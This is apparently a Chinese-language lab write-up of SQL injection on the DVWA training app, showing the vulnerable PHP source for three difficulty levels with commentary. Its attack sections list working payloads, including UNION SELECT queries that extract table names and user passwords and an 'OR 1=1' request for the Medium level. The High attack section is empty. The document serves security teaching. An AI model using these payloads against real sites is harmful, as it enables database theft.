








# 一、Low
## 1.1 源码
```PHP
<?php

if( isset( $_REQUEST[ 'Submit' ] ) ) {
    // Get input
    $id = $_REQUEST[ 'id' ];

    switch ($_DVWA['SQLI_DB']) {
        case MYSQL:
            // Check database
            $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
            $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

            // Get results
            while( $row = mysqli_fetch_assoc( $result ) ) {
                // Get values
                $first = $row["first_name"];
                $last  = $row["last_name"];

                // Feedback for end user
                echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
            }

            mysqli_close($GLOBALS["___mysqli_ston"]);
            break;
        case SQLITE:
            global $sqlite_db_connection;

            #$sqlite_db_connection = new SQLite3($_DVWA['SQLITE_DB']);
            #$sqlite_db_connection->enableExceptions(true);

            $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
            #print $query;
            try {
                $results = $sqlite_db_connection->query($query);
            } catch (Exception $e) {
                echo 'Caught exception: ' . $e->getMessage();
                exit();
            }

            if ($results) {
                while ($row = $results->fetchArray()) {
                    // Get values
                    $first = $row["first_name"];
                    $last  = $row["last_name"];

                    // Feedback for end user
                    echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
                }
            } else {
                echo "Error in fetch ".$sqlite_db->lastErrorMsg();
            }
            break;
    } 
}

?>
```
- `$query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";`从`users`表中，查询`user_id`等于用户输入`$id`的用户姓名。
- `$id`被单引号`'`包裹，这是字符型SQL注入的标志。
- `$result = mysqli_query(连接, SQL语句) or die(错误信息);`，SQL查询成功将结果存到`$result`，查询失败，停止程序，并打印错误
- `mysqli_query($GLOBALS["___mysqli_ston"], $query)`，`mysqli_query`PHP专门执行MySQL语句的函数，`$GLOBALS["___mysqli_ston"]`DVWA提前建好的数据库连接，`$query`有注入漏洞的那行拼接好的SQL语句
```PHP
((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false))

如果（数据库连接是有效的）{
    输出 → SQL执行的语法错误（比如注入导致的SQL写错了）
} else {
    输出 → 数据库连不上的错误
}
```


## 1.2 攻击
### 1.2.1 探测
判断注入点，以及字符型or数字型：

- 单引号测试：`1'`，返回sql错误，说明代码没有对特殊字符进行转义


- 逻辑测试：`1' AND '1'='1`（正常显示），`1' AND '1'='2`（无数据）。为字符型注入


### 1.2.2 信息收集
摸清数据库结构：

- 确定列数：`1' ORDER BY 2 #`（页面正常），`1' ORDER BY 3 #`（页面报错，仅两列）


- 确定显示位：`1' UNION SELECT 1, 2 #`


### 1.2.3 脱库
- 数据库名和版本：`1' UNION SELECT version(), database() #`

- 获取表名：`1' UNION SELECT 1, group_concat(table_name) FROM information_schema.tables WHERE table_schema='dvwa' #`

- 获取列名：`1' UNION SELECT 1, group_concat(column_name) FROM information_schema.columns WHERE table_name='users' #`

- 获取账户密码：`1' UNION SELECT user, password FROM users #`


# 二、Medium
## 2.1 源码
```PHP
<?php

if( isset( $_POST[ 'Submit' ] ) ) {
    // Get input
    $id = $_POST[ 'id' ];

    $id = mysqli_real_escape_string($GLOBALS["___mysqli_ston"], $id);

    switch ($_DVWA['SQLI_DB']) {
        case MYSQL:
            $query  = "SELECT first_name, last_name FROM users WHERE user_id = $id;";
            $result = mysqli_query($GLOBALS["___mysqli_ston"], $query) or die( '<pre>' . mysqli_error($GLOBALS["___mysqli_ston"]) . '</pre>' );

            // Get results
            while( $row = mysqli_fetch_assoc( $result ) ) {
                // Display values
                $first = $row["first_name"];
                $last  = $row["last_name"];

                // Feedback for end user
                echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
            }
            break;
        case SQLITE:
            global $sqlite_db_connection;

            $query  = "SELECT first_name, last_name FROM users WHERE user_id = $id;";
            #print $query;
            try {
                $results = $sqlite_db_connection->query($query);
            } catch (Exception $e) {
                echo 'Caught exception: ' . $e->getMessage();
                exit();
            }

            if ($results) {
                while ($row = $results->fetchArray()) {
                    // Get values
                    $first = $row["first_name"];
                    $last  = $row["last_name"];

                    // Feedback for end user
                    echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
                }
            } else {
                echo "Error in fetch ".$sqlite_db->lastErrorMsg();
            }
            break;
    }
}

// This is used later on in the index.php page
// Setting it here so we can close the database connection in here like in the rest of the source scripts
$query  = "SELECT COUNT(*) FROM users;";
$result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );
$number_of_rows = mysqli_fetch_row( $result )[0];

mysqli_close($GLOBALS["___mysqli_ston"]);
?>
```
- `$id = $_POST[ 'id' ];`对比low，修改为POST提交方式
- `$id = mysqli_real_escape_string($GLOBALS["___mysqli_ston"], $id);`自动转义`' " \ \n \r`这些危险注入字符，无法用单引号闭合`'`语句
- `SELECT ... WHERE user_id = $id;`这里不需要单引号，直接数字注入
- `or die( '<pre>' . mysqli_error($GLOBALS["___mysqli_ston"]) . '</pre>'`错误信息简化
- 末尾新增统计用户总数，给前端页面使用，同一关闭数据库连接

## 2.2 攻击
burp suite构造`id=1 OR 1= 1`


# 三、High
## 3.1 源码
```PHP
<?php

if( isset( $_SESSION [ 'id' ] ) ) {
    // Get input
    $id = $_SESSION[ 'id' ];

    switch ($_DVWA['SQLI_DB']) {
        case MYSQL:
            // Check database
            $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id' LIMIT 1;";
            $result = mysqli_query($GLOBALS["___mysqli_ston"], $query ) or die( '<pre>Something went wrong.</pre>' );

            // Get results
            while( $row = mysqli_fetch_assoc( $result ) ) {
                // Get values
                $first = $row["first_name"];
                $last  = $row["last_name"];

                // Feedback for end user
                echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
            }

            ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);        
            break;
        case SQLITE:
            global $sqlite_db_connection;

            $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id' LIMIT 1;";
            #print $query;
            try {
                $results = $sqlite_db_connection->query($query);
            } catch (Exception $e) {
                echo 'Caught exception: ' . $e->getMessage();
                exit();
            }

            if ($results) {
                while ($row = $results->fetchArray()) {
                    // Get values
                    $first = $row["first_name"];
                    $last  = $row["last_name"];

                    // Feedback for end user
                    echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
                }
            } else {
                echo "Error in fetch ".$sqlite_db->lastErrorMsg();
            }
            break;
    }
}

?>
```
- `$id = $_SESSION[ 'id' ];`相比low和medium，不再直接从用户获取id，而是通过页面跳转
- `SELECT ... WHERE user_id = '$id' LIMIT 1;`SQL语句强制只返回1条结果，但这里是单引号包裹，且无过滤
- `or die( '<pre>Something went wrong.</pre>' );`完全隐藏数据库错误

## 3.2 攻击


